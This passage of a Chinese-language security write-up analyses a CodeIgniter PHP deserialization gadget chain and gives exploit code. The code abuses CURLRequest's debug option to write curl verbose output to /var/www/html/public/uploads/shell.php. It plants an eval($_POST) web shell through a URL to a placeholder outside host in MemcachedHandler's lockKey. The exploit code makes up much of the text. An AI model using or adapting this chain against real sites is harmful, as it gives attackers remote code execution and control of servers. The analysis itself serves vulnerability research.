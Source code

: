 答案是肯定的，可以看到:

[![](https://p1.ssl.qhimg.com/t0107b50fe404125a4f.png)](https://p1.ssl.qhimg.com/t0107b50fe404125a4f.png)

在该类中存在`$config`配置`curl`，并且默认是`false`,返回到`send`方法:

[![](https://p0.ssl.qhimg.com/t013cc10f19d66d732c.png)](https://p0.ssl.qhimg.com/t013cc10f19d66d732c.png)

这里调用`$this-&gt;setCURLOptions`传递了`$config`配置，跟进该方法:

```
...
// Debug
        if ($config['debug'])
        `{`
            $curlOptions[CURLOPT_VERBOSE] = 1;
            $curlOptions[CURLOPT_STDERR]  = is_string($config['debug']) ? fopen($config['debug'], 'a+') : fopen('php://stderr', 'w');
        `}`
...
```

这里开启了刚才curl debug最关键的两个字段:`CURLOPT_VERBOSE&amp;CURLOPT_STDERR`,并且这里的`$config['debug']`是我们可控的，这样我们可以控制它为`/var/www/html/uploads/shell.php`，这样就可以写入shell了

因此EXP就很好写了:

```
&lt;?php
namespace CodeIgniter\Cache\Handlers`{`
    class RedisHandler`{`
        protected $redis;
        public function __construct($redis)
        `{`
            $this-&gt;redis = $redis;
        `}`
    `}`

`}`

namespace CodeIgniter\Session\Handlers`{`
    class MemcachedHandler`{`
        protected $memcached;
        protected $lockKey;
        public function __construct($memcached)
        `{`
            $this-&gt;lockKey = "http://xxx:3333/?&lt;?=eval(\$_POST[1])?&gt;";
            $this-&gt;memcached = $memcached;
        `}`
    `}`
`}`

namespace CodeIgniter\HTTP`{`
    class CURLRequest`{`
        protected $config = [];
        public function __construct()
        `{`
            $this-&gt;config = [
                'timeout'         =&gt; 0.0,
                'connect_timeout' =&gt; 150,
                'debug'           =&gt; '/var/www/html/public/uploads/shell.php',
                'verify'          =&gt; false,
            ];
        `}`
    `}`
`}`
```